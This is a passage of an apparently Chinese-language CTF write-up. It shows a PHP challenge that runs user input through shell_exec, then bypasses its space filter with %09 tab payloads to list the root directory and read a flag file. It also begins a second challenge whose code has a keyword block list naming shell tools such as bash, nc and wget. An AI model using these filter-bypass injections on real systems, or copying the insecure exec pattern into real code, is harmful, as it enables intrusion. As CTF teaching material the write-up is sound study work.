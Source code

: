 ```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> 
```

发现存在命令执行漏洞 并且过滤了空格  我们可以利用%09代替空格

```php
?url=ls%09/
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736515123609-516e4d5b-72ee-48fe-af18-aec17c0af666.png)

发现flag存在根目录下方 利用cat命令读取flag

```php
?url=cat%09/flllllaaaaaaggggggg
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736515272843-60b84841-53c8-4603-9c72-a4efb2c39c95.png)

## [SWPUCTF 2021 新生赛]finalrce
代码审计

```php
<?php
  highlight_file(__FILE__);
if(isset($_GET['url']))
{
  $url=$_GET['url'];
  if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
  {
    echo "Sorry,you can't use this.";
  }
  else
  {
    echo "Can you see anything?";
    exec($url);
  }
}
```
